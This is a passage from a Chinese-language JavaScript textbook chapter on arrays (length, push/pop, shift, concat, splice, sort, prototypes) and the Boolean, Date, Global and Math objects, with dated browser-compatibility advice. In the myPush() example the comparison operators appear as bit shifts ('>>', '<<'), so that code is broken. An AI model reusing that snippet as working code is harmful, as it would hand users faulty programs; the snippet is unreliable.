也是有效的。然而，在这种情况下，您开始得到一个稀疏数组，如下面显示*myArray*当前值的对话框所示：


修改数组值同样容易。要更改数组的第二个值，只需像这样赋值：

```
myArray[1] = 101;
```

当然，在设置数组值时，您必须记住前面章节中做出的引用类型和原始类型之间的区别。特别是，请记住，当您操作一个已被设置为等于引用类型的变量时，它也会修改原始值。例如，考虑以下代码：

```
var firstarray = ["Mars", "Jupiter", "Saturn"]

var secondarray = firstarray;

secondarray[0] = "Neptune";

alert(firstarray);
```

您会注意到，如图所示，*firstArray*中的值被更改了！


#### 删除数组元素

引用类型的这一特性非常有用，尤其是在向函数传递参数的情况下。

可以使用 **delete** 运算符删除数组元素。该运算符将其作用到的数组元素设置为 **undefined**，但不会改变数组的 **length**（稍后会详细说明）。例如，

```javascript
var myColors = ["red", "green", "blue"];

delete myColors[1];

alert("The value of myColors[1] is: " + myColors[1]);
```

结果为


效果就好像从未在该索引位置放置过任何元素一样。然而，数组的实际大小仍然是三，如下所示，当你弹出整个数组内容时：


我们还可以通过访问其 **length** 属性来验证数组没有缩小，该属性的详细内容将在下节讨论。

## length 属性

**length** 属性返回数组末尾下一个可用（未填充）位置的索引。即使某些较低的索引未被使用，**length** 也会返回最后一个元素之后第一个可用位置的索引。请看以下示例：

```javascript
var myArray = new Array();

myArray[1000] = "This is the only element in the array";

alert (myArray.length);
```

尽管 *myArray* 仅在索引 **1000** 处有一个元素，但正如我们在弹出的 *myArray.length* 对话框中看到的，下一个可用位置在数组末尾，即 **1001**。


由于 **length** 属性的这一特性，我们建议按顺序使用数组元素。以不连续的方式赋值会导致数组在持有定义值的索引之间出现"空洞"——即前面提到的所谓"稀疏数组"。由于 JavaScript 仅为实际包含数据的数组元素分配内存，这并不会造成内存浪费的问题。但这仅仅意味着你必须小心，不要意外使用"空洞"中的 `undefined` 值。

**length** 属性会随着新元素的添加而自动更新。因此，**length** 通常用于遍历数组的所有元素。以下示例说明了数组遍历，以及使用带有"空洞"的数组时可能出现的问题：

```javascript
// 定义一个变量来保存乘法的结果
var result = 1;

// 定义一个数组来保存要乘的值
var myValues = new Array();

// 设置值
myValues[0] = 2;
myValues[2] = 3;

// 遍历数组，将每个值相乘
for (var index = 0; index < myValues.length; index++)
    result = result * myValues[index];

alert("The value of result is: " + result);
```

从结果可以看出，


出现了严重错误。预期结果是 **6**，但我们最终得到的值不是一个数字（**NaN**）。发生了什么？数组遍历按预期进行，但 *myValues[1]* 从未被赋值，因此保持为 `undefined`。根据 JavaScript 的类型转换规则，尝试将 `undefined` 与数字相乘会得到 **NaN**（参见第 3 章）。这个单一的 undefined 数组元素破坏了整个计算。

尽管前面的示例明显是人为构造的，但使用带有空洞的数组需要程序员格外小心。我们现在提供一个"谨慎"版本的示例，它能给出预期的结果：

```javascript
var result = 1;
var myValues = new Array();
myValues[0] = 2;
myValues[2] = 3;

for (var index = 0; index < myValues.length; index++)
{
    // 检查元素是否有效
    if (myValues[index] != undefined)
        result = result * myValues[index];
}

alert("The value of result is: " + result);
```


这个脚本唯一的区别是将乘法放在了 **if** 语句内部。**if** 语句检查每个元素的有效性，通过跳过 undefined 值来确保正确的行为。

除了提供信息外，**length** 属性还可以被设置来执行某些功能。任何包含数据且索引大于赋给 **length** 的值的索引，都会被立即重置为 **undefined**。例如，要删除数组中的所有元素，可以将 **length** 设置为零：

```javascript
var myArray = ["red", "green", "blue"];

myArray.length = 0;

alert("myArray="+myArray);
```

该赋值通过将所有索引处的数据替换为 undefined 来删除数组中的所有内容，就好像它们从未被设置过一样。在这种情况下，你实际上不会看到太多内容：


将 **length** 设置为大于最后一个有效元素索引的值，不会对数组内容产生任何影响，尽管它会增加数组中 undefined 槽位的数量。例如，考虑以下脚本的结果，

```javascript
var myArray = ["red", "green", "blue"];

myArray.length = 20;

alert("myArray="+myArray);
```

如下所示：


你不应该直接设置 **length** 属性，因为扩展数组的结果通常是一个稀疏数组。然而，通过这种方法进行删除是可以接受的。例如，使用这种能力删除数组的最后一个元素有点笨拙：

```javascript
myArray.length = myArray.length - 1;
```

较新版本的 JavaScript 提供了更好的方法来删除最后一个元素，即 **Array** 对象提供的模拟栈和队列的方法。

## 数组作为栈和队列

JavaScript 1.2+ 和 JScript 5.5+ 提供了将数组视为栈和队列的方法。对于不熟悉这些抽象数据类型的读者，*栈*用于按*后进先出*的顺序存储数据，通常称为 LIFO。也就是说，第一个放入栈中的对象是读取栈时最后一个被检索的对象。*队列*是一种抽象数据类型，用于按*先进先出*的顺序存储数据，也称为 FIFO。队列中的数据按添加的顺序被检索。

以数组形式实现的栈使用 **push()** 和 **pop()** 方法进行操作。调用 **push()** 将给定的参数（按顺序）追加到数组末尾，并相应递增 **length** 属性。调用 **pop()** 从数组中删除最后一个元素，返回该元素，并将 **length** 属性减一。以下示例说明了这些属性的用法。数组内容和任何返回值都在注释中注明。

```javascript
var stack = [];               // []

stack.push("first");           // ["first"]

stack.push(10, 20);            // ["first", 10, 20]

stack.pop();                   // ["first", 10]         返回 20

stack.push(2);                 // ["first", 10, 2]

stack.pop();                   // ["first", 10]         返回 2

stack.pop();                   // ["first"]             返回 10

stack.pop(); // [] 返回 "first"
```

当然，你可以使用 **push()** 和 **pop()** 在数组末尾添加和删除数据，而不必将其视为实际的栈。

JavaScript 还提供了 **unshift()** 和 **shift()** 方法。这些方法与 **push()** 和 **pop()** 的工作方式相同，只是它们从数组前端添加和删除数据。调用 **unshift()** 将其参数（按顺序）插入到数组开头，将现有元素移到更高的索引，并相应递增数组的 **length** 属性。例如，

```javascript
var myArray = [345, 78, 2];

myArray.unshift(4, "fun");

alert(myArray);
```

在数组前端添加了两个元素，如下所示：


调用 **shift()** 从数组中删除第一个元素，返回该元素，将剩余元素向下移动一个索引，并将 **length** 减一。你可以将 **shift()** 视为将数组中的每个元素向下移动一个索引，导致第一个元素被弹出并返回；因此，给定前面的示例，如果我们调用

```javascript
myArray.shift();
```

我们将得到一个包含 "fun"、345、78 和 2 的数组。与 **pop()** 一样，在数组上调用 **shift()** 会返回一个可以使用的值。例如，我们可以将移出数组的值保存到变量中：

```javascript
var x = myArray.shift();
```

你可以使用 **push()** 和 **shift()** 来模拟队列。以下示例说明了这一原理。我们将新数据放在数组末尾，通过删除索引为零的元素来检索数据。数组内容和任何返回值都在注释中注明。

```javascript
var queue = [];

queue.push("first", 10); // ["first", 10]

queue.shift(); // [10] 返回 "first"

queue.push(20); // [10, 20]

queue.shift(); // [20] 返回 10

queue.shift(); // [] 返回 20
```

即使你从不将数组用作栈或队列，本节讨论的方法在操作数组内容时也会派上用场。现在让我们再看一些有用的数组操作。

> **注意** *如本章开头所述，这些方法需要 JavaScript 1.2 或 JScript 5.5 或更高版本。Internet Explorer 5 及更早版本无法原生使用这些功能。然而，使用 **Array** 原型添加我们自己的 **pop()** 和 **push()** 方法可以解决这个问题。参见本章后面标题为"使用原型扩展数组"的部分。*

#### 操作数组


JavaScript 提供了丰富的方法用于对数组执行常见操作。本节将对这些 **Array** 方法进行概述，并简要讨论其中一些方法的特殊之处。

##### concat() 方法

**concat()** 方法返回一个数组，该数组由将其参数追加到调用它的数组上而产生。给定以下脚本：

```
var myArray = ["red", "green", "blue"];

alert(myArray.concat("cyan", "yellow"));
```

预期的更大数组显示如下：


但是要注意，**concat()** 不会就地修改数组。注意以下脚本的输出：

```
var myArray = ["red", "green", "blue"];

myArray.concat("cyan", "yellow");

alert(myArray);
```

其结果显示如下：


与前面讨论的 **push()** 和 **shift()** 方法不同，你需要保存返回值；例如：

```
var myArray = ["red", "green", "blue"];

myArray = myArray.concat("cyan", "yellow");
```

如果 **concat()** 的任何**参数**本身是一个数组，它将被展平为数组元素。这种展平不是递归的，因此包含数组元素的数组参数只有其外层数组会被展平。一个例子可以更清楚地说明这种行为：

```
var myArray = ["red", "green", "blue"];

myArray.concat("pink", ["purple", "black"]);

// Returns ["red", "green", "blue", "pink", "purple", "black"]

myArray.concat("white", ["gray", ["orange", "magenta"]]);
```

```
// Returns ["red", "green", "blue", "white", "gray", ["orange", "magenta"]]
alert(myArray[myArray.length-1]);
```

// shows orange, magenta

> **注意** 你可能会注意到，如果你使用 **alert** 输出整个数组，数组会被递归展平。然而，访问 **length** 属性或**单个**元素时，你就会发现你其实有嵌套数组。

##### join() 方法

JavaScript 1.1+ 和 JScript 2.0+ 的 **join()** 方法将数组转换为字符串，并允许程序员指定结果字符串中元素的分隔方式。通常，当你打印数组时，输出的是以逗号分隔的数组元素列表。你可以使用 **join()** 按你需要的方式格式化列表分隔符：

```
var myArray = ["red", "green", "blue"];
```

```
var stringVersion = myArray.join(" / ");
```

```
alert(stringVersion);
```


需要注意的一点是，**join()** 方法不会破坏数组作为返回其元素连接字符串的副作用。如果你愿意，显然可以通过覆盖对象的类型来实现这一点。例如：

```
var myArray = ["red", "green", "blue"];
```

```
myArray = myArray.join(" / ");
```

**join()** 方法是 **String** 对象的 **split()** 方法的逆操作。

##### reverse() 方法

JavaScript 1.1+ 和 JScript 2.0+ 也允许你就地反转数组元素。**reverse()** 方法，正如人们所期望的，反转调用它的数组的元素：

```
var myArray = ["red", "green", "blue"];
```

```
myArray.reverse();
```

```
alert(myArray);
```


##### slice() 方法

**Array** 的 **slice()** 方法（自 JavaScript 1.2+ 和 JScript 3.0 起支持）返回调用它的数组的一个"切片"（子数组）。由于它不是就地操作，原始数组不会被破坏。该方法接受两个参数，即 *start* 和 *end* 索引，返回一个包含从索引 *start* 开始到但不包括索引 *end* 的元素数组。如果只给出一个参数，该方法返回由该索引到数组末尾的所有元素组成的数组。注意 *start* 和 *end* 允许取负值。为负时，这些值被解释为从数组末尾开始的偏移量。例如，调用 **slice(-2)** 返回包含数组最后两个元素的数组。以下示例展示了 **slice()** 的实际应用：

```
var myArray = [1, 2, 3, 4, 5];

myArray.slice(2);        // returns [3, 4, 5]

myArray.slice(1, 3);    // returns [2, 3]

myArray.slice(-3);      // returns [3, 4, 5]

myArray.slice(-3, -1);  // returns [3, 4]

myArray.slice(-4, 3);   // returns [2, 3]

myArray.slice(3, 1);    // returns []
```

##### splice() 方法

**splice()** 方法在 JavaScript 1.2+ 和 JScript 5.5+ 中可用，可用于就地向数组添加、替换或删除元素。任何被删除的元素都会被返回。它接受可变数量的参数，其中第一个是必需的。其语法可以概括为：

```
splice(*start*, *deleteCount*, *replacevalues*);
```

第一个参数 *start* 是要执行操作的索引。第二个参数是 *deleteCount*，即从索引 *start* 开始要删除的元素数量。任何由 *replacevalues* 表示的进一步参数（如果有多个，以逗号分隔）将被插入到删除的元素所在的位置。

```
var myArray = [1, 2, 3, 4, 5];

myArray.splice(3,2,'a','b');

// returns 4,5      [1,2,3,'a','b']

myArray.splice(1,1,"in","the","middle");

// returns 2         [1,"in","the","middle",3,'a','b']
```

##### toString() 和 toSource() 方法

**toString()** 方法返回一个字符串，包含以逗号分隔的数组值。当你打印数组时，此方法会自动调用。它等同于不带任何参数调用 **join()**。也可以使用 **toLocaleString()** 返回本地化字符串，其中分隔符可能因运行脚本的浏览器的区域设置而不同。然而，在大多数情况下，此方法将返回与 **toString()** 相同的值。

> **注意** Netscape 4 有一个不幸的 bug。当 <<script>> 标签具有属性 **language="JavaScript1.2"** 时，此方法会在返回的字符串中包含方括号。在正常情况下，以下代码
>
>     var myArray = [1, [2, 3]];
>
>     var stringVersion = myArray.toString();
>
> 会将 "1,2,3" 放入 stringVersion 中。但由于上述 bug，在 Netscape 4 中使用 "**JavaScript1.2**" 语言属性时，值 "[1, [2, 3]]" 会被赋给 stringVersion。

保留方括号的字符串创建可通过 **toSource()** 方法实现，自 JavaScript 1.3 起可用。这允许你创建数组的字符串表示，该表示可以传递给 **eval()** 函数以便稍后作为数组使用。**eval()** 函数在本章后面标题为"全局"的部分中讨论。

##### sort() 方法

最有用的 **Array** 方法之一是 **sort()**。自 JavaScript 1.1 和 JScript 2.0 起支持，**sort()** 的工作方式与标准 C 库中的 **qsort()** 函数非常相似。默认情况下，它按字典顺序就地排序数组元素。它首先将数组元素转换为字符串，然后按字典顺序排序。这可能导致意想不到的结果。考虑以下示例：

```
var myArray = [14,52,3,14,45,36];

myArray.sort();

alert(myArray);
```

如果你运行此脚本，你会发现，根据此 JavaScript 排序，3 大于 14！你可以在这里看到结果：


产生此结果的原因是，从字符串排序的角度来看，14 小于 3。幸运的是，sort 函数非常灵活，我们可以解决这个问题。如果你想按不同的顺序排序，可以向 **sort()** 传递一个比较函数，以确定你选择的顺序。该函数应接受两个参数，如果第一个参数应在排序中排在第二个参数之前，则返回负值。（理解为：第一个"小于"第二个。）如果两个元素在排序中相等，则应返回零。如果第一个参数应排在第二个参数之后，该函数应返回正值。（理解为：第一个"大于"第二个。）例如，如果我们希望执行数值排序，我们可以编写如下函数：

```
function myCompare(x, y)
{

  if (x < y)

   return -1;

  else if (x == y)

    return 0;

  else

    return 1;

}
```

然后我们可以在前面的示例中使用该函数：

```
var myArray = [14,52,3,14,45,36];

myArray.sort(myCompare);

alert(myArray);
```

我们在这里得到了预期的结果：


如果你想更简洁，可以使用第5章介绍的匿名函数。请看这个将奇数排在偶数前面的例子：

```javascript
var myArray = [1,2,3,4,5,6];

myArray.sort( function(x, y) {

    if (x % 2)

        return -1;

    if (x % 2 == 0)

        return 1;

}

);

alert(myArray);
```

结果如下所示：


注意，我们可以通过添加确保偶数和奇数各自按升序排列的代码，使这个示例更加健壮。

#### 多维数组

虽然 JavaScript 语言中没有显式支持，但大多数 JavaScript 实现都支持一种形式的多维数组。多维数组是将数组作为其元素的数组。例如，

```javascript
var tableOfValues = [[2, 5, 7], [3, 1, 4], [6, 8, 9]];
```

定义了一个二维数组。多维数组中的数组元素按照你所期望的方式访问，即使用一组方括号来指定每个维度中所需元素的索引。在前面的例子中，数字 **4** 是第二个数组的第三个元素，因此通过 `tableOfValues[1][2]` 来访问。类似地，**7** 位于 `tableOfValues[0][2]`，**6** 位于 `tableOfValues[2][0]`，**9** 位于 `tableOfValues[2][2]`。

#### 通过原型扩展数组

在 JavaScript 中，所有非原始数据都派生自 **Object** 对象，这在上一章已经讨论过。我们应该回想起，正因为这个事实，我们可以通过对象原型向任何我们喜欢的对象添加新的方法和属性。例如，我们可以向数组添加一个特殊的 **display()** 方法来提醒用户数组的内容。

```javascript
function myDisplay()

{

   if (this.length != 0)

      alert(this.toString());

   else

      alert("The array is empty");

}

Array.prototype.display = myDisplay;
```

然后我们可以使用新的 **display()** 方法来打印数组的值，如下所示：

```javascript
var myArray = [4,5,7,32];

myArray.display();

// displays the array values
```

```javascript
var myArray2 = [];

myArray2.display();

// displays the string "The array is empty"
```

通过使用原型，我们可以"修补"Internet Explorer 5.5 之前版本浏览器中缺少的 **pop()** 和 **push()** 方法。例如，要在旧版浏览器中添加 **pop()** 方法，或在新版浏览器中安全地覆盖内置的 **pop()**，我们可以使用

```javascript
function myPop()

{

   if (this.length != 0)

   {

      var last = this[this.length-1];

      this.length--;

      return last;

   }

}

Array.prototype.pop = myPop;
```

我们自己实现的 **push()** 只是稍微复杂一些，如下所示：

```javascript
function myPush()
{
  var numtopush = this.push.arguments.length;
  var arglist = this.push.arguments;
  if (numtopush >> 0)
  {
    for (var i=0; i << numtopush; i++)
    {
      this.length++;
      this[this.length-1] = arguments[i];
    }
  }
}

Array.prototype.push = myPush;
```

我们可以看到，掌握[上一章](...)的思想确实能派上用场！虽然我们自己的函数可以用来解决旧版浏览器的问题，但不要认为使用原型就能解决你在 JavaScript 早期版本中遇到的所有数组问题。JavaScript 数组实现中的严重缺陷，比如 Netscape 2 中的缺陷，可能无法通过原型来修复，因为它们本身可能也缺乏原型。但是，如果你想在 Internet Explorer 4 或 Netscape 3 中添加 **push()** 和 **pop()** 支持，你会发现这段代码应该能达到目的。

### Boolean

Boolean 是与原始布尔数据类型对应的内置对象。这个对象非常简单。它本身没有有趣的属性。它从通用 Object 继承了所有属性和方法。因此它拥有 `toSource()`、`toString()` 和 `valueOf()`。在这些方法中，也许唯一具有实际用途的是 `toString()` 方法，它在值为 true 时返回字符串 "true"，否则返回 "false"。构造函数接受一个可选的布尔值来指示其初始值：

```javascript
var boolData = new Boolean(true);
```

但是，如果你不使用构造函数设置值，它默认为 false。

```javascript
var anotherBool = new Boolean();

// set to false
```

由于 JavaScript 类型转换规则中的一些微妙之处，几乎总是更倾向于使用原始布尔值而不是 **Boolean** 对象。

### Date

**Date** 对象提供了一套丰富的方法来操作日期和时间。使用 **Date** 提供的一些较高级的方法可能会有些令人困惑，除非你理解格林尼治标准时间 (GMT)、协调世界时 (UTC) 和本地时区之间的关系。幸运的是，对于绝大多数应用，你可以假设 GMT 与 UTC 相同，并且你的计算机时钟忠实地运行着 GMT 并且知道你所在的特定时区。

在使用 JavaScript 日期值时，需要注意以下几点：

- JavaScript 在内部将日期存储为自"纪元"——1970年1月1日（GMT）——以来的毫秒数。这是 UNIX 系统存储时间方式的产物，如果你需要在旧版浏览器中处理纪元之前的日期，可能会导致问题。
- 当读取当前日期和时间时，你的脚本依赖于客户端机器的时钟。如果客户端的日期或时间不正确，你的脚本会反映出这一点。
- 星期几和月份的枚举从零开始。所以 **0** 是星期天，**6** 是星期六，**0** 是一月，**11** 是十二月。然而，日期的编号从一开始。

#### 创建日期

**Date()** 构造函数的语法比我们之前见过的其他构造函数强大得多。构造函数接受可选参数，允许创建表示过去或未来时间点的 **Date** 对象。表 7-1 描述了构造函数参数及其结果。

表 7-1：Date() 构造函数的参数

| 参数 | 描述 | 示例 |
| --- | --- | --- |
| 无 | 创建具有当前日期和时间的对象。 | `var rightNow = new Date();` |
| "month dd, yyyy hh:mm:ss" | 创建具有指定月份、日期（*dd*）、年份（*yyyy*）、小时（*hh*）、分钟（*mm*）和秒（*ss*）所表示的日期的对象。任何省略的值都设为零。 | `var birthDay = new Date("March 24, 1970");` |
| 毫秒数 | 创建具有纪元之后整数毫秒数所表示的日期的对象。 | `var someDate = new Date(795600003020);` |
| yyyy, mm, dd | 创建具有由整数值年份（*yyyy*）、月份（*mm*）和日期（*dd*）指定的日期的对象。 | `var birthDay = new Date(1970, 2, 24);` |
| yyyy, mm, dd, hh, mm, ss | 创建具有由年、月、日、时、分、秒的整数值指定的日期的对象。 | `var birthDay = new Date(1970, 2, 24, 15, 0, 0);` |
| yyyy, mm, dd, hh, mm, ss, ms | 创建具有由年、月、日、时、分、秒和毫秒的整数值指定的日期的对象。 | `var birthDay = new Date(1970, 2, 24, 15, 0, 0, 250);` |

表 7-1 值得做一些说明。构造函数参数的字符串版本可以是任何能被 **Date.parse()** 方法解析的日期字符串。在最后两种格式的语法中，年、月、日之后的参数是可选的。如果省略，它们将被设为零。包含毫秒的最终语法仅在 JavaScript 1.3+ 中可用。

> **注意** *由于使用两位数表示年份会产生歧义，你指定年份时应始终使用四位数。这可以使用本节后面讨论的 **getFullYear()** 方法来完成。*

需要注意的是，你创建的 **Date** 对象是静态的。它们不包含一个运行中的时钟。如果你需要使用某种定时器，**Window** 对象的 **setInterval()** 和 **setTimeout()** 方法要合适得多。这些方法在附录 B 以及后续面向应用的章节中都有讨论。

**Date** 对象的创建目的是被拆解和操作，以及帮助根据你的特定应用格式化日期。你甚至可以直接计算两个日期之间的差值：

```javascript
var firstDate = new Date(1995, 0, 6);
var secondDate = new Date(1999, 11, 2);
var difference = secondDate - firstDate;
alert(difference);
```

结果表示 1995年1月6日到 1999年12月2日之间经过的大约毫秒数：


将上一个示例转换为更易用的值并不困难，接下来将进行讨论。

#### 操作日期

为了隐藏 **Date** 对象以毫秒偏移量存储值这一事实，日期通过它们提供的方法来操作。也就是说，**Date** 值是通过调用方法来设置和获取的，而不是直接设置或读取属性。这些方法会自动为你处理毫秒偏移量与人类友好格式之间的转换。以下示例演示了一些常用的 **Date** 方法：

```javascript
var myDate = new Date();
var year = myDate.getYear();
year = year + 1;
myDate.setYear(year);
alert (myDate);
```

这个示例获取当前日期并将其加一年。结果如下所示：


JavaScript 提供了一套完整的 **get** 和 **set** 方法来读写日期的每个字段，包括 **getDate()**、**setDate()**、**getMonth()**、**setMonth()**、**getHours()**、**setHours()**、**getMinutes()**、**setMinutes()**、**getTime()**、**setTime()** 等。此外，所有这些方法都有对应的 UTC 版本：**getUTCMonth()**、**getUTCHours()**、**setUTCMonth()**、**setUTCHours()** 等。有一组方法需要特别说明：**getDay()** 和 **setDay()**。这些方法用于操作以 **0**（星期天）到 **6**（星期六）的整数存储的星期几。下面的示例展示了许多常用 **Date** 方法的实际用法（结果如图 7-1 所示）：


##### 实际应用中的常用 Date 函数


```javascript
var today = new Date();
document.write("The current date : "+today+"<br />");
document.write("Date.getDate() : "+today.getDate()+"<br />");
document.write("Date.getDay() : "+today.getDay()+"<br />");
document.write("Date.getFullYear() : "+today.getFullYear()+"<br />");
document.write("Date.getHours() : "+today.getHours()+"<br />");
document.write("Date.getMilliseconds() : "+today.getMilliseconds()+"<br />");
document.write("Date.getMinutes() : "+today.getMinutes()+"<br />");
document.write("Date.getMonth() : "+today.getMonth()+"<br />");
document.write("Date.getSeconds() : "+today.getSeconds()+"<br />");
document.write("Date.getTime() : "+today.getTime()+"<br />");
document.write("Date.getTimezoneOffset() : "+today.getTimezoneOffset()+"<br />");
document.write("Date.getYear() : "+today.getYear()+"<br />");
```

**Date** 对象支持的完整方法列表请参见[附录 B](Appendix B)。

##### 将 Date 转换为字符串

有多种方式可以将 **Date** 对象转换为字符串。如果需要创建自定义格式的日期字符串，最佳方式是从对象中读取各个组成部分并手动拼接字符串。如果想创建标准格式的字符串，**Date** 提供了三种方法来实现。**toString()**、**toUTCString()** 和 **toGMTString()**，它们的使用在下一个示例中进行了说明。请注意，**toUTCString()** 和 **toGMTString()** 按照互联网（GMT）标准格式化字符串，而 **toString()** 则按照"本地"时间创建字符串。结果如图 7-2 所示。


```javascript
var appointment = new Date("February 24, 1996 7:45");
document.write("toString(): ", appointment.toString());
document.write("<br />");
document.write("toUTCString(): ", appointment.toUTCString());
document.write("<br />");
document.write("toGMTString(): ", appointment.toGMTString());
```

##### 将字符串转换为 Date

由于可以向 **Date()** 构造函数传递字符串，因此有理由认为 JavaScript 提供了将字符串转换为 **Date** 对象的机制。这是通过类方法 **Date.parse()** 实现的，该方法返回一个整数，表示自纪元以来到其参数之间的毫秒数。请注意，此方法是 **Date** 构造函数的属性，而非各个 **Date** 实例的属性。

**parse()** 方法在可转换为毫秒的日期方面非常灵活（该方法的完整细节见附录 B）。作为其参数传递的字符串自然可以是表 7-1 中所示形式的有效字符串。此外，该方法还能识别标准时区、与 GMT 和 UTC 的时区偏移量，以及使用 - 或 / 分隔符格式化的月/日/年三元组，还有月份和日期的缩写形式，如 "Dec" 和 "Tues"。例如，

```javascript
// 设置值为 1982 年 12 月 14 日
var myDay = "12/14/82";
// 将其转换为毫秒
var converted = Date.parse(myDay);
// 创建新的 Date 对象
var myDate = new Date(converted);
// 输出日期
alert(myDate);
```

创建的 *myDate* 具有如下所示的正确值：


如果不确定希望转换的特定字符串是否能被 **Date.parse()** 识别，需要检查其返回值。如果无法将给定字符串转换为日期，该方法将返回 **NaN**。例如，本示例中的调用，

```javascript
var myDay = "Friday, 2002";
var invalid = Date.parse(myDay);
```

结果为 **NaN**，因为 *myDay* 包含的信息不足以解析出日期。

##### Date 表示的局限性

**Date** 对象的细微之处不容低估。请记住，ECMA-262 是管理核心 JavaScript 语言特性的标准。虽然浏览器实现的大多数方面都严格遵循该规范，但 **Date** 对象行为的偏差却很常见。例如，非常旧的浏览器（尤其是 Netscape 2）中的 **Date** 支持非常糟糕。Bug 如此之多，以至于建议程序员在此平台上避免除最简单日期操作以外的所有操作。Netscape 3 稍好一些，但在正确处理时区方面仍存在问题。至少，在这两个版本的 Netscape 中操作日期时应谨慎行事。Internet Explorer 3 不允许纪元之前的日期。但是，Netscape 4+ 和 Internet Explorer 4+ 可以处理纪元前后数百甚至数千年的日期，这应该足以应对大多数任务。当然，使用极端日期（如公元 1 年之前或遥远的未来）时应谨慎行事。附录 B 包含了各种 **Date** 方法和实现问题的完整细节。

### Global

**Global** 对象是一个很少被提及的对象，它是顶级属性和方法的"大杂烩"，这些属性和方法不属于任何其他对象。你无法创建 **Global** 对象的实例；它在 ECMA-262 标准中被定义为全局可访问、无处可归属的属性的存放之处。它提供了几个可以在 JavaScript 任何地方使用的基本属性。表 7-2 总结了其最有用的方法。这些方法直接调用，不需要添加 "global." 前缀。事实上，这样做会导致错误。正因为这些方法看起来与任何特定对象无关，所以一些 JavaScript 文档将其称为"全局"或内置函数。

表 7-2：全局可用的方法

| 方法 | 描述 | 示例 |
|---|---|---|
| **escape()** | 接收一个字符串并返回一个字符串，其中所有非字母数字字符（如空格、制表符和特殊字符）都被替换为其十六进制等价形式 %xx。 | `var aString="O'Neill & Sons";`<br>`// aString = "O'Neill & Sons"`<br>`aString = escape(aString);`<br>`// aString="O%27Neill%20%26%20Sons"` |
| **eval()** | 接收一个字符串并将其作为 JavaScript 代码执行。 | `var x;`<br>`var aString = "5+9";`<br>`x = aString;`<br>`// x 包含字符串 "5+9"`<br>`x = eval(aString);`<br>`// x 将包含数字 14` |
| **isFinite()** | 返回一个布尔值，指示其数字参数是否为有限数。 | `var x;`<br>`x = isFinite('56');`<br>`// x 为 true`<br>`x = isFinite(Infinity);`<br>`// x 为 false` |
| **isNaN()** | 返回一个布尔值，指示其数字参数是否为 **NaN**。 | `var x;`<br>`x = isNaN('56');`<br>`// x 为 False`<br>`x = isNaN(0/0);`<br>`// x 为 true`<br>`x = isNaN(NaN);`<br>`// x 为 true` |
| **parseFloat()** | 将字符串参数转换为浮点数并返回值。如果字符串无法转换，则返回 **NaN**。该方法应处理以数字开头的字符串并提取所需部分，但其他混合字符串将无法转换。 | `var x;`<br>`x = parseFloat("33.01568");`<br>`// x 为 33.01568`<br>`x = parseFloat("47.6k-red-dog");`<br>`// x 为 47.6`<br>`x = parseFloat("a567.34");`<br>`// x 为 NaN`<br>`x = parseFloat("won't work");`<br>`// x 为 NaN` |
| **parseInt()** | 将字符串参数转换为整数并返回值。如果字符串无法转换，则返回 **NaN**。与 **parseFloat()** 类似，该方法应处理以数字开头的字符串并提取所需部分，但其他混合字符串将无法转换。 | `var x;`<br>`x = parseInt("-53");`<br>`// x 为 -53`<br>`x = parseInt("33.01568");`<br>`// x 为 33`<br>`x = parseInt("47.6k-red-dog");`<br>`// x 为 47`<br>`x = parseInt("a567.34");`<br>`// x 为 NaN`<br>`x = parseInt("won't work");`<br>`// x 为 NaN` |
| **unescape()** | 接收包含一些 %xx 形式字符的十六进制字符串值，并返回所传递值的 ISO-Latin-1 ASCII 等价形式。 | `var aString="O%27Neill%20%26%20Sons";`<br>`aString = unescape(aString);`<br>`// aString = "O'Neill & Sons"`<br>`aString = unescape("%64%56%26%23");`<br>`// aString = "dV&#"` |

注意 **Global** 对象还定义了常量 **NaN** 和 **Infinity**，它们在表 7-2 的示例中已有使用。但是，类似的常量也由本章稍后讨论的 **Number** 对象提供。

**Global** 方法非常有用，将在本书的示例中广泛使用。有抱负的 JavaScript 程序员应该努力熟悉它们。**eval()** 方法尤其强大，有趣的是可以看到用它编写的脚本是多么简洁。然而，这种能力是有代价的，许多使用 **eval()** 的脚本会产生非常棘手的运行时问题，因此请谨慎使用。

**Global** 方法的另一个有趣考虑是 **escape()** 和 **unescape()** 提供的字符串转义。我们主要在 Web 上看到这种操作用于创建 URL 安全字符串。在使用表单时你可能已经见过这种操作。虽然这些方法会非常有用，但 ECMAScript 规范建议弃用 **escape()** 和 **unescape()**，转而使用名称更贴切的 **encodeURI()**、**encodeURIComponent()**、**decodeURI()** 和 **decodeURIComponent()**。它们的使用说明如下：

```javascript
var aURLFragment = encodeURIComponent("term=O'Neill & Sons");
document.writeln("Encoded URI Component: "+aURLFragment);
document.writeln("Decoded URI Component: "+decodeURIComponent(aURLFragment));

var aURL = encodeURI("http://www.pint.com/cgi-bin/search?term=O'Neill & Sons");
document.writeln("Encoded URI: "+ aURL);
document.writeln("Decoded URI: "+ decodeURI(aURL));
```

虽然这些方法是规范的一部分，但由于一些浏览器不支持它们，程序员仍然经常避免使用它们。此外，无论好坏，**escape()** 和 **unescape()** 被当前 JavaScript 程序员广泛使用，因此它们的使用似乎不会很快让位于规范函数。**Global** 的完整文档（包括这些问题）可以在附录 B 中找到。


### 数学对象

**Math** 对象包含一系列常量和方法，可进行比第 4 章讨论的基本算术运算符更复杂的数学运算。你无法像实例化 **Array** 或 **Date** 那样实例化 **Math** 对象。**Math** 对象是静态的（由解释器自动创建），因此其属性可直接访问。例如，要计算 **10** 的平方根，可通过 **Math** 对象直接访问 **sqrt()** 方法：

```javascript
var root = Math.sqrt(10);
```

表 7-3 列出了 **Math** 对象提供的所有常量。完整的数学方法列表见表 7-4。

#### 表 7-3：Math 对象提供的常量

| 属性 | 描述 |
| --- | --- |
| **Math.E** | 自然对数的底数（欧拉常数 *e*） |
| **Math.LN2** | 2 的自然对数 |
| **Math.LN10** | 10 的自然对数 |
| **Math.LOG2E** | 以 2 为底的 *e* 的对数 |
| **Math.LOG10E** | 以 10 为底的 *e* 的对数 |
| **Math.PI** | 圆周率（π） |
| **Math.SQRT1_2** | 0.5 的平方根（等同于 2 的平方根的倒数） |
| **Math.SQRT2** | 2 的平方根 |

#### 表 7-4：Math 对象提供的方法

| 方法 | 返回值 |
| --- | --- |
| **Math.abs(arg)** | *arg* 的绝对值 |
| **Math.acos(arg)** | *arg* 的反余弦值 |
| **Math.asin(arg)** | *arg* 的反正弦值 |
| **Math.atan(arg)** | *arg* 的反正切值 |
| **Math.atan2(y, x)** | x 轴与点 (x, y) 之间按逆时针测量的角度（类似极坐标）。注意 *y* 作为第一个参数而非第二个传递。 |
